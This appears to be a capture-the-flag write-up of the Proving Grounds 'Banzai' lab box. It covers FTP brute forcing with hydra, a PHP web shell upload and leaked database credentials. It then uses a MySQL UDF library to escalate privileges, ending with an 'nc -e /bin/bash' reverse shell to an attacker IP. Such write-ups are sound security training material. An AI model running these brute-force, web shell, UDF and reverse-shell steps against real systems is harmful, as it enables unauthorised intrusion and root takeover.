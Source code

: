 ```yaml
---
title: "Proving grounds Practice: Banzai"
layout: post
date: 2024-01-15 02:00
categories: writeup
---
```


Proving grounds - Banzai CTF writeup.

# NMAP

```text
PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        vsftpd 3.0.3
22/tcp   open  ssh        OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
25/tcp   open  smtp       Postfix smtpd
5432/tcp open  postgresql PostgreSQL DB 9.6.4 - 9.6.6 or 9.6.13 - 9.6.19
8080/tcp open  http       Apache httpd 2.4.25
8295/tcp open  http       Apache httpd 2.4.25 ((Debian))
```

## 21/tcp   open  ftp        vsftpd 3.0.3

anonymous login prohibited
user:system - failed

Crack the password using hydra.

```sh
naveenj@hackerspace:|10:55|~/proving_grounds/Banzai$ hydra -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt ftp://192.168.217.56
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-10-21 10:57:12
[DATA] max 16 tasks per 1 server, overall 16 tasks, 66 login tries, ~5 tries per task
[DATA] attacking ftp://192.168.217.56:21/
[21][ftp] host: 192.168.217.56   login: admin   password: admin
```

## Login to FTP server

- upload php shell and trigger it to get initial foothold.
- Try reverse connection port as 22.

Found Database credentials.php

```text
define('DBHOST', '127.0.0.1');
define('DBUSER', 'root');
define('DBPASS', 'EscalateRaftHubris123');
define('DBNAME', 'main');
```

## Privilege Escalation

Download exploit

- https://www.exploit-db.com/exploits/1518

Connect to mysql db

```sh
ww-data@banzai:/var/www/html$ mysql -uroot -pEscalateRaftHubris123
mysql -uroot -pEscalateRaftHubris123
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 2
Server version: 5.7.30 MySQL Community Server (GPL)

Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```

## Download precompiled lib from metasploit

- https://github.com/rapid7/metasploit-framework/tree/master/data/exploits/mysql

upload through ftp

```sh
mysql> use mysql;	#select db
use mysql;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> create table foo(line blob);		#create table
create table trenchesofit(line blob);
Query OK, 0 rows affected (0.00 sec)

mysql> insert into foo values(load_file('/var/www/html/lib_mysqludf_sys_64.so'));	#upload exploit lib
insert into trenchesofit values(load_file('/var/www/html/lib_mysqludf_sys_64.so'));
Query OK, 1 row affected (0.01 sec)

mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys_64.so';	#upload exploit to mysql lib
select * from trenchesofit into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys_64.so';
Query OK, 1 row affected (0.03 sec)

mysql> create function sys_exec returns integer soname 'lib_mysqludf_sys_64.so';	#use lib
create function sys_exec returns integer soname 'lib_mysqludf_sys_64.so';
Query OK, 0 rows affected (0.00 sec)

mysql> select sys_exec('nc -e /bin/bash 192.168.45.160 22');	#exec command
select sys_exec('nc -e /bin/bash 192.168.45.160 22');
```

![img](/assets/images/CTF/Proving_Grounds/Banzai/root.png)

**Root Obtained**

## Important Takeaway
- The lib file has to be place in /usr/lib/mysql/plugin/lib_mysqludf_sys_64.so folder else the exploit won't work.

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).